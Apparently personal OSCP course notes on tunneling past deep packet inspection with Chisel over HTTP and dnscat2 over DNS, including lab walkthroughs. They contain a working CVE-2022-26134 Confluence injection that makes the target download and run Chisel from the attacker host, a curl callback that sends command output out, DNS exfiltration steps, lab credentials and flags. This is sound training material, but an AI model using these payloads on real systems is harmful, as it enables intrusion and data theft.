





# Module 20: Tunneling Through Deep Packet Inspection

**Tags:** #OSCP #Module20 #Tunneling #DPI #Chisel #HTTP #DNS #dnscat2 #Pivoting #PortForwarding #SOCKS #ProxyCommand #Ncat #Dnsmasq #WebSocket #NetworkEvasion

**Related:** [[Port Redirection and SSH Tunneling]] | [[Pivoting, Tunneling, and Port Forwarding (HTB Supplementary)]] | [[Chisel]] | [[Dnscat2]] | [[Windows Methodology]] | [[Linux Methodology]]

---

## Outstanding Sections

- [x] 20.1.1 HTTP Tunneling Fundamentals (theory)
- [x] 20.1.2 HTTP Tunneling with Chisel (theory + full technique walkthrough)
- [x] 20.2.1 DNS Tunneling Fundamentals (theory + lab walkthrough)
- [x] 20.2.2 DNS Tunneling with dnscat2 (theory + full technique walkthrough)

---

## 20.1 HTTP Tunneling Theory and Practice

### 20.1.1 HTTP Tunneling Fundamentals

Deep Packet Inspection (DPI) is a network perimeter technology that inspects traffic against a ruleset. It can do a lot more than a basic firewall. Where a firewall might block a port, a DPI device can inspect the actual content of packets and terminate traffic that doesn't conform to expected protocols. Classic example: block outbound SSH even if it's on port 80, because the DPI device can see the SSH banner in the stream.

The scenario for this module: CONFLUENCE01 is compromised and we can run commands via HTTP requests. The DPI solution only allows outbound HTTP from CONFLUENCE01. All inbound ports on CONFLUENCE01 are blocked except TCP/8090. This kills every tunnel technique from Module 19 because SSH, Socat, and standard reverse shells don't produce HTTP-formatted traffic.



The goal: reach PGDATABASE01 via SSH, tunnelling through CONFLUENCE01, using only HTTP-formatted traffic.

> 🔍 Worth remembering generally: DPI can inspect protocol content, not just port numbers. A reverse shell on port 443 still gets killed if it doesn't look like HTTPS. That's why HTTP tunneling tools are required in these environments.

### 20.1.2 HTTP Tunneling with Chisel

#### What Chisel does

Chisel is an HTTP tunneling tool. It encapsulates a data stream inside HTTP, and also wraps the whole thing in SSH encryption. The DPI device sees valid HTTP traffic. The payload inside is opaque.

Chisel uses client/server model. The server binds a listening port. With `--reverse`, the server will bind a SOCKS proxy port when a client connects. The client connects outbound over HTTP (the DPI-safe direction) and registers a reverse tunnel back.

> 🔁 Similar to: [[Port Redirection and SSH Tunneling#SSH Remote Dynamic Port Forwarding|SSH remote dynamic forwarding]] but over HTTP instead of raw SSH.

**External resources:**
- [HackTricks: Tunneling and Port Forwarding (GitHub)](https://github.com/HackTricks-wiki/hacktricks/blob/master/generic-methodologies-and-resources/tunneling-and-port-forwarding.md) — Chisel section covers reverse SOCKS and specific port forward syntax
- [PayloadsAllTheThings: Network Pivoting](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md) — Chisel examples including R:socks and R:port variants
- ippsec.rocks → search "chisel" for HTB boxes that use HTTP tunneling in their solutions

**Architecture once Chisel is running:**



#### Step-by-step: Setting up the Chisel reverse SOCKS tunnel

**Step 1: Copy Chisel binary to Apache webroot (on Kali)**

```bash
sudo cp $(which chisel) /var/www/html/
```

This puts the Chisel binary where Apache can serve it so CONFLUENCE01 can download it.

**Step 2: Start Apache (on Kali)**

```bash
sudo systemctl start apache2
```

**Step 3: Download Chisel to CONFLUENCE01 via the injection**

The Confluence CVE-2022-26134 injection URL-encodes a `bash -c` command. The payload we want CONFLUENCE01 to run:

```bash
wget 192.168.118.4/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```

Encoded into the curl injection:

```bash
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/
```

Verify the download hit Apache:

```bash
sudo tail /var/log/apache2/access.log
# Expected: 192.168.50.63 - - [...] "GET /chisel HTTP/1.1" 200 ...
```

> 📸 Screenshot: Apache access log showing `GET /chisel HTTP/1.1" 200` from CONFLUENCE01's IP

**Step 4: Start the Chisel server on Kali**

```bash
chisel server --port 8080 --reverse
# Expected output:
# server: Reverse tunnelling enabled
# server: Fingerprint Pru+AFGOUxnEXyK1Z14RMqeiTaCdmX6j4zsa9S2Lx7c=
# server: Listening on http://0.0.0.0:8080
```

`--reverse` is the critical flag. It tells the server to accept reverse tunnel configurations from the client (including the reverse SOCKS proxy).

**Step 5: (Optional) Start tcpdump to confirm traffic**

```bash
sudo tcpdump -nvvvXi tun0 tcp port 8080
```

**Step 6: Start the Chisel client on CONFLUENCE01 via injection**

Payload we want CONFLUENCE01 to run:

```bash
/tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &
```

`R:socks` = create a Reverse SOCKS tunnel. The SOCKS proxy binds on the server (Kali) on port 1080 by default. `> /dev/null 2>&1 &` sends it to background so the injection doesn't hang.

Encoded:

```bash
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29%7D/
```

Expected in Chisel server output:

```
server: session#2: Client version (1.8.1) differs from server version (1.8.1-0kali2)
server: session#2: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

Verify the SOCKS port is bound:

```bash
ss -ntplu | grep 1080
# Expected: tcp LISTEN 127.0.0.1:1080 ... chisel
```

> 📸 Screenshot: `ss -ntplu` output showing chisel listening on 127.0.0.1:1080

---

> 🔧 Technique: **Troubleshooting blind command execution via error collection**
>
> When you run a command via a web injection, you often get no stdout/stderr back. Use this pattern to collect all output and POST it back to your listener:
>
> ```bash
> /tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/
> ```
>
> `&>` redirects ALL streams (stdout + stderr) to `/tmp/output`. The `curl --data @/file` then POSTs the contents back. Your tcpdump or Chisel server will show the raw POST body with the error text. This is a broadly useful pattern for any blind execution scenario.
>
> In this module's example it revealed:
> ```
> /tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found
> /tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found
> ```

---

> 🔧 Technique: **glibc version incompatibility with newer Go binaries**
>
> Go 1.20+ compiled binaries require glibc 2.32/2.34, which older Ubuntu/Debian targets may not have. The Kali package of Chisel is compiled with a newer Go version than the official release binary.
>
> Fix: Download the **official** Chisel release binary from GitHub, which is compiled with Go 1.19 (pre-incompatibility threshold):
>
> ```bash
> wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
> gunzip chisel_1.8.1_linux_amd64.gz
> sudo cp ./chisel /var/www/html
> ```
>
> Then re-download to the target via the injection (same wget command as before). This applies to any Go binary: if the target has old glibc, pull the older compiled release rather than your local Kali version.

> 📸 Screenshot: Chisel server showing `session#N: tun: proxy#R:127.0.0.1:1080=>socks: Listening`

#### Step 7: SSH through the SOCKS proxy using ProxyCommand + Ncat

SSH doesn't have a native SOCKS option. Instead, use `ProxyCommand` to route the SSH connection through a SOCKS-aware tool. OpenBSD Netcat has `-X` for this but the Kali `nc` doesn't support it. Use **Ncat** (from the `ncat` package) instead.

```bash
sudo apt install ncat
```

Then SSH through the SOCKS proxy:

```bash
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215
```

`%h` and `%p` are SSH placeholders that get replaced with the target host and port before the command runs. Ncat connects to the SOCKS proxy at 127.0.0.1:1080, which routes the connection through Chisel to CONFLUENCE01, which then forwards to PGDATABASE01's SSH port.

Expected: full SSH prompt on PGDATABASE01.

> 🔍 Worth remembering generally: `ProxyCommand` in SSH is how you route SSH through any proxy. The pattern `ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p` is the standard drop-in replacement when OpenBSD nc isn't available. Works with any SOCKS proxy (Chisel, SSH dynamic, Proxychains, etc.) at any port.

> 🔍 Worth remembering generally: **Chisel specific port forward vs SOCKS.** `R:socks` creates a reverse SOCKS proxy (route anything through proxychains/ProxyCommand). `R:localport:rhost:rport` creates a single specific reverse port forward — use this when the exercise client hardcodes a port and you don't need general SOCKS routing. Lab Q2 used `R:4141:10.4.249.215:8008` to expose exactly one service.

> 📸 Screenshot: SSH session on PGDATABASE01 established via Chisel HTTP tunnel

---

> ✅ **20.1.2 Lab Q1 (VM Group 1)** — Chisel reverse SOCKS proxy via CVE-2022-26134 Confluence injection. Used Go 1.19 compiled binary (v1.8.1) to avoid glibc 2.32/2.34 incompatibility with newer Kali chisel. SSH via `ncat ProxyCommand` through SOCKS on 127.0.0.1:1080. Flag on PGDATABASE01 at `/tmp/chisel_flag`.
>
> ```
> whoami: database_admin
> flag: OS{5e431637346c27e3327ba03c12cfd612}
> ```

> ✅ **20.1.2 Lab Q2 (VM Group 2)** — `chisel_exercise_client` hardcodes `127.0.0.1:4141`. Used `R:4141:10.4.249.215:8008` on the Chisel client (not R:socks) to bind 4141 on Kali loopback and forward to PGDATABASE01:8008 via CONFLUENCE01. Ran the client binary, got flag directly from the server response.
>
> ```
> Flag: OS{90705586fec401574bb3530a61c21323}
> ```

---

## 20.2 DNS Tunneling Theory and Practice

### 20.2.1 DNS Tunneling Fundamentals

#### DNS crash course

When you type `www.example.com`, your machine asks a **recursive resolver** (usually your ISP's or 8.8.8.8) to find the IP. The recursive resolver does the heavy lifting:

1. Queries one of 13 **root name servers** (knows the whole tree)
2. Root server responds: "for `.com`, ask this TLD name server"
3. Recursive resolver asks the **.com TLD name server**: "who handles example.com?"
4. TLD server responds: "ask this authoritative name server"
5. Recursive resolver asks the **authoritative name server for example.com**: "what's the IP for www.example.com?"
6. Gets the A record (IPv4 address) back and returns it to you

All of this travels over UDP/53.



#### The key insight for DNS tunneling

PGDATABASE01 has no direct outbound connectivity to the WAN. But it can talk to MULTISERVER03 (the DNS resolver). MULTISERVER03, doing its job as a recursive resolver, will eventually reach FELINEAUTHORITY on the WAN for any `*.feline.corp` query.

So: data embedded in a subdomain query from PGDATABASE01 will travel through MULTISERVER03 and land on FELINEAUTHORITY, which we control.



**Data exfiltration via subdomain queries:** Encode data as hex in the subdomain portion. Send sequential queries for `[chunk1].feline.corp`, `[chunk2].feline.corp`, etc. Log all queries on FELINEAUTHORITY. Reconstruct from the logs.

**Data infiltration via TXT records:** Serve arbitrary data in TXT records on FELINEAUTHORITY. The internal host makes a TXT query and receives the data in the response. Base64 or hex encoding handles binary data.

#### Dnsmasq for quick DNS server setup

Dnsmasq is lightweight DNS server software. On FELINEAUTHORITY:

```bash
# Minimal config to act as authoritative NS for feline.corp
cat dnsmasq.conf
# no-resolv       <- don't read /etc/resolv.conf
# no-hosts        <- don't read /etc/hosts
# auth-zone=feline.corp
# auth-server=feline.corp

sudo dnsmasq -C dnsmasq.conf -d
# -C = config file, -d = run in foreground (no daemon)
```

With TXT records:

```bash
# dnsmasq_txt.conf adds:
# txt-record=www.feline.corp,here's something useful!
# txt-record=www.feline.corp,here's something else less useful.

sudo dnsmasq -C dnsmasq_txt.conf -d
```

Test from PGDATABASE01:

```bash
nslookup -type=txt www.feline.corp
# Expected: www.feline.corp text = "here's something useful!"
#           www.feline.corp text = "here's something else less useful."
```

Monitor arriving queries on FELINEAUTHORITY:

```bash
sudo tcpdump -i ens192 udp port 53
```

> 🔍 Worth remembering generally: if you ever need a quick authoritative DNS server for a domain you control, Dnsmasq with a 5-line config is the fastest option. The `auth-zone` and `auth-server` directives are all it takes to make it authoritative. You can add TXT/A/CNAME records in the same file.

> 🔍 Worth remembering generally: `systemd-resolved` on Ubuntu caches DNS locally and may return stale results. Flush with `resolvectl flush-caches`. You can also bypass the local cache entirely by specifying the DNS server directly: `nslookup <query> <dns-server-ip>`.

> 📸 Screenshot: tcpdump on FELINEAUTHORITY showing DNS queries arriving from MULTISERVER03 (192.168.50.64) for feline.corp subdomains

---

> ✅ **20.2.1 Lab Q1 (VM Group)** — Used CVE-2022-26134 Confluence injection + output-collection pattern to run `nslookup -type=txt give-me.cat-facts.internal 192.168.249.64` on CONFLUENCE01. Output POST'd back to `nc -lvnp 4444` on Kali. No need for a full pivot setup for a single DNS query.
>
> ```
> give-me.cat-facts.internal    text = "OS{70d78c775d7cd54d353815bacea17625}"
> ```

---

### 20.2.2 DNS Tunneling with dnscat2

dnscat2 builds a full two-way encrypted tunnel over DNS queries. The server runs on the authoritative name server (FELINEAUTHORITY). The client runs on the compromised pivot host (PGDATABASE01). Data moves in subdomain queries (TXT, CNAME, MX record types) and responses.

> 🔁 Similar to: [[Pivoting, Tunneling, and Port Forwarding (HTB Supplementary)#PT.4 Dnscat2 DNS Tunneling|HTB PTF PT.4 Dnscat2]] for the setup commands. This section adds the port forwarding use case.

**External resources:**
- [HackTricks: DNS Tunneling (GitHub)](https://github.com/HackTricks-wiki/hacktricks/blob/master/generic-methodologies-and-resources/exfiltration.md#dns-exfiltration) — DNS exfil/infil concepts and tool references
- [PayloadsAllTheThings: Network Pivoting](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md) — dnscat2 section
- ippsec.rocks → search "dnscat2" for HTB walkthrough examples

**dnscat2 architecture:**



#### Step-by-step: Setting up dnscat2 tunnel

**Step 1: Start tcpdump on FELINEAUTHORITY (optional, for verification)**

```bash
sudo tcpdump -i ens192 udp port 53
```

**Step 2: Start dnscat2 server on FELINEAUTHORITY**

Kill any dnsmasq process first (C+c), then:

```bash
dnscat2-server feline.corp
# Output:
# Starting Dnscat2 DNS server on 0.0.0.0:53
# [domains = feline.corp]...
# Prints a --secret value and sample client command
```

The server listens on UDP/53 and acts as the authoritative name server for feline.corp.

**Step 3: Run dnscat2 client on PGDATABASE01**

```bash
cd ~/dnscat
./dnscat feline.corp
# Output:
# Session established!
# Prints authentication string e.g. "Annoy Mona Spiced Outran Stump Visas"
```

**Step 4: Verify the connection on the server**

Server shows:

```
New window created: 1
Session 1 security: ENCRYPTED BUT *NOT* VALIDATED
>> Annoy Mona Spiced Outran Stump Visas
```

The authentication string must match on both sides. If it does, no MITM is in the path.

> 🔧 Technique: When running dnscat2 without a `--secret` pre-shared key, the authentication string is the verification. Compare client vs server output to confirm no tampering. Always use `--secret` in real engagements for proper authentication.

> 🔧 Technique: **dnscat2 session timing — act immediately.** The client drops after ~20 unanswered DNS queries. Between the session appearing and running `window -i 1` + `listen`, you have seconds. Have the listen command ready to paste. If the session drops, re-run `./dnscat feline.corp` on the pivot host and repeat.

> 🔧 Technique: **Bypassing systemd-resolved for dnscat2.** If the session keeps dropping with "server hasn't returned a valid response", bypass systemd-resolved (127.0.0.53) and query MULTISERVER03 directly using the full `--dns` flag syntax:
> ```bash
> ./dnscat --dns server=<MS03_IP>,port=53,domain=feline.corp --secret=<secret>
> ```
> Note: domain goes INSIDE the `--dns` comma-separated list. Passing it as a positional argument while using `--dns server=...` causes a conflict error.

> 📸 Screenshot: dnscat2 server showing `Session 1 security: ENCRYPTED BUT *NOT* VALIDATED` with matching auth string on both client and server

**Step 5: Interact with the dnscat2 session**

```bash
# In dnscat2 server:
dnscat2> windows
# Lists all windows (main, dns1, command session)

dnscat2> window -i 1
# Attaches to session 1 (the client's command shell)

command (pgdatabase01) 1> ?
# Lists available commands: listen, shell, exec, upload, download, etc.
```

> 📸 Screenshot: dnscat2 server showing active session and command prompt

#### Port forwarding through the DNS tunnel

dnscat2's `listen` command works like `ssh -L`. It binds a local port on the server (FELINEAUTHORITY) and forwards through the tunnel to a host/port reachable from the client (PGDATABASE01).

**Syntax:**

```bash
listen [lhost:]lport rhost:rport
```

**Example: Access HRSHARES SMB through the DNS tunnel**

```bash
command (pgdatabase01) 1> listen 127.0.0.1:4455 172.16.2.11:445
# Listening on 127.0.0.1:4455, sending connections to 172.16.2.11:445
```

Then from another shell on FELINEAUTHORITY:

```bash
smbclient -p 4455 -L //127.0.0.1 -U hr_admin --password=Welcome1234
# Expected: share listing (ADMIN$, C$, IPC$, scripts, Users)
```

This routes: FELINEAUTHORITY:4455 → DNS tunnel (UDP queries/responses) → PGDATABASE01 → TCP to HRSHARES:445.

> 🔍 Worth remembering generally: DNS tunneling is slow and noisy in terms of query volume. It's not stealthy (huge burst of TXT/CNAME/MX queries is anomalous), but it's effective at bypassing DPI that blocks everything except DNS. Use it when HTTP tunneling isn't viable either (e.g., outbound HTTP is also blocked but DNS still resolves).

> 🔍 Worth remembering generally: dnscat2's `listen` is local port forwarding (like ssh -L). For interactive shell access through the tunnel, use `shell` to get a raw command shell or `exec` to run a specific command on the client side.

> 🔍 Worth remembering generally: **When the tool hardcodes `127.0.0.1` and your listener is on a remote host.** If an exercise client or tool hardcodes `127.0.0.1:PORT` and the actual listener is on FELINEAUTHORITY (or any other remote host), you need an SSH local port forward to bridge the gap: `ssh -fNL PORT:127.0.0.1:PORT user@REMOTE_HOST`. The `-fN` flags background the SSH connection immediately without an interactive shell. This pattern applies to any scenario where a local tool needs to reach a service on a pivot host.

> 📸 Screenshot: dnscat2 `listen` command output showing `Listening on 0.0.0.0:4141, sending connections to 172.16.x.x:4646`
> 📸 Screenshot: smbclient listing HRSHARES shares via dnscat2 port forward on 127.0.0.1:4455

#### Traffic pattern (tcpdump view)

dnscat2 uses rotating record types per query: TXT, CNAME, MX. Each query subdomain is hex-encoded encrypted data. The volume is high, slow (DNS caching can interfere), and clearly non-human:

```
TXT? 8f150140b65c73af271ce019c1ede35d28.feline.corp
CNAME? bbcd0158e09a60c01861eb1e1178dea7ff.feline.corp
MX? 8a670158e004d2f8d4d5811e1241c3c1aa.feline.corp
```

This is not stealthy. But it works through environments where literally nothing else passes.

---

> ✅ **20.2.2 Lab Q1 (VM Group)** — dnscat2-server on FELINEAUTHORITY (kali / 7he_C4t_c0ntro11er, 192.168.249.7). dnscat2 client on PGDATABASE01 via Chisel SOCKS → SSH pivot. Exercise client hardcodes `127.0.0.1:4141`. Chain: `listen 0.0.0.0:4141 172.16.249.217:4646` in dnscat2 + `ssh -fNL 4141:127.0.0.1:4141 kali@192.168.249.7` to bring FELINEAUTHORITY's port to Kali's loopback. Key lessons: use `window -i 1` immediately when session appears, act fast before 20-attempt timeout; `--dns server=X,port=53,domain=Y` is the correct syntax for bypassing systemd-resolved.
>
> ```
> Flag: OS{125ac2f5592f1cead3a544217bd6c905}
> ```

---

## 20.3 Module Comparison: Chisel vs dnscat2

| Aspect | Chisel (HTTP) | dnscat2 (DNS) |
|---|---|---|
| Transport | HTTP / WebSocket | DNS (UDP/53) |
| Encryption | SSH inside HTTP | Built-in (session key) |
| Speed | Good (HTTP is designed for data) | Slow (DNS packet size limits) |
| Stealthiness | Looks like normal HTTP | Very noisy (burst of DNS queries) |
| When to use | DPI allows HTTP only | DPI blocks everything except DNS |
| Port forwarding | Via SOCKS proxy (proxychains/ProxyCommand) | `listen` command (like ssh -L) |
| Platform | macOS/Linux/Windows/aarch64 | Linux (client binary on pivot) |
| SOCKS support | Yes (R:socks reverse SOCKS) | No native SOCKS; use `listen` per port |

---

## Video Walkthroughs

- **Chisel HTTP tunneling:** ippsec.rocks → search "chisel" — covered in HTB Dante, Offshore, and similar multi-host lab writeups
- **DNS tunneling / dnscat2:** ippsec.rocks → search "dnscat" — less common in public boxes but appears in deep-pivot lab scenarios
- **CVE-2022-26134 Confluence RCE (the pivot vector used here):** [ippsec search "confluence"](https://ippsec.rocks/?#confluence) — the injection technique appears in several 2022-era boxes

---

## Key Commands Reference

```bash
# --- Chisel ---

# Server (Kali): bind port 8080, accept reverse tunnels
chisel server --port 8080 --reverse

# Client (target): connect back to Kali, create reverse SOCKS on server's 1080
/tmp/chisel client 192.168.118.4:8080 R:socks

# Client (target): create specific reverse port forward (for Q2 lab pattern)
/tmp/chisel client 192.168.118.4:8080 R:4455:10.4.50.215:8008

# SSH through Chisel SOCKS proxy (Kali)
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' user@10.4.50.215

# Verify SOCKS port is up
ss -ntplu | grep 1080

# Error collection pattern for blind execution
/tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/

# Download compatible binary (glibc fix)
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
gunzip chisel_1.8.1_linux_amd64.gz
sudo cp ./chisel /var/www/html

# --- dnscat2 ---

# Server (FELINEAUTHORITY): listen on UDP/53 for feline.corp queries
dnscat2-server feline.corp

# Client (PGDATABASE01): establish tunnel
./dnscat feline.corp

# dnscat2 interactive session
dnscat2> windows
dnscat2> window -i 1
command (pgdatabase01) 1> listen 127.0.0.1:4455 172.16.2.11:445

# Dnsmasq quick authoritative DNS server
sudo dnsmasq -C dnsmasq.conf -d       # basic auth NS
sudo dnsmasq -C dnsmasq_txt.conf -d   # with TXT records

# Test TXT record query from internal host
nslookup -type=txt www.feline.corp
nslookup -type=txt www.feline.corp 192.168.50.64   # bypass local cache, query MS03 directly
resolvectl flush-caches                              # flush systemd-resolved cache

# Monitor DNS traffic
sudo tcpdump -i ens192 udp port 53

# dnscat2 client (bypass systemd-resolved, direct DNS server)
./dnscat --dns server=<MS03_IP>,port=53,domain=feline.corp --secret=<secret>

# SSH local port forward to bring remote listener to Kali loopback (background, no shell)
ssh -fNL <localport>:127.0.0.1:<remoteport> user@<remote_host>
# e.g. bring FELINEAUTHORITY's 4141 to Kali's localhost:4141:
ssh -fNL 4141:127.0.0.1:4141 kali@192.168.249.7
```

---

## Related Boxes

**Genuine technique boxes (HTTP/DNS tunneling, DPI bypass, SOCKS through proxy):**
- HTB: **Sink** (HTTP request smuggling + tunneling chain), **Travel** (DNS rebinding/SSRF chains involving DNS manipulation)
- Note: DPI bypass and DNS tunneling techniques are uncommon in public HTB/PG boxes since most box networks don't simulate DPI rules. The technique becomes essential in internal network segments during actual penetration tests and OSCP exam network environments.

**Adjacent workflow boxes (Chisel/SOCKS pivoting without the HTTP tunnel constraint):**
- HTB: [[Boxes/WRITE UPS/Dante.md|Dante]] (multi-hop SOCKS pivoting with Chisel)
- PG: most multi-host chains that require SOCKS (Chisel's forward SOCKS variant)

> 🔁 Similar to: [[Port Redirection and SSH Tunneling#19.4 Chisel|Module 19 Chisel forward SOCKS]] for the basic Chisel setup without the HTTP tunnel constraint and DPI context.

---

*Module 20 fully complete — theory, all four labs, solo enrichment pass done.*
